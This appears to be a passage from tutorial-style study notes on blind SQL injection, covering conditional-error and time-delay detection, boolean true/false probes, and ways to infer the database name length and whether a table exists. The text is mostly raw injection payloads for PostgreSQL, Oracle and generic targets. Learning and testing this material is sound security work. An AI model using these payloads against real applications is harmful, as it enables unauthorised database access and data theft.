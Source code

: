 			- A conditional error:
				- The page will not render properly, you'll get an error instead.

			- A time delay response:
				- The page will render as usual but if puted a `time delay injection`, then the rendering will be delay.
				- Example of delay payload:

						'||pg_sleep(5)--

	- Then, try to recreate the normal behavior by injecting a payload. This way we have 2 states. One for positive and one for a negative answer.
		- Pay attention to the `'`. If we put an other quotes `''` and get a valid answer, then it might be another type of injection (not sql). So we need to verify that the server interpret an `sql` command by putting a code inside the `'`, like this `'<code>'`.
		- For example (Oracle):

				'||(SELECT '' FROM dual)||'

	- Example of payload ***(Don't put a comment at the end)***  

			' and 1=1
			' and 1=0
			' AND 1
			' AND TRUE
			' AND '1'='1
			') or ('1'='1
			') or '1'='1

	- We can use `Vim` to compare the 2 responses from the server.
		- Open `Vim` and paste the first response.
		- Next, open a new window
				:vnew
		- Paste the second response in the new window.
				:windo diffthis
		- To terminate we can type
				:diffoff!

***
### Conditional Response Blind Injections
- Length of current DB name in use  

		/a6d92f8421/fetch?id=1 AND LENGTH(database())=6

		6 found as valid length

- Confirm that a table exist  

	- To confirm that a table exist, we can use [Litteral strings explanation](http://www.geeksengine.com/database/basic-select/literal-character-strings.php)
 instead of real column name.

			' AND (SELECT 'a' FROM users LIMIT 1)='a

	- Oracle (concatenation method)

			'||(SELECT '' FROM users WHERE ROWNUM=1)||'
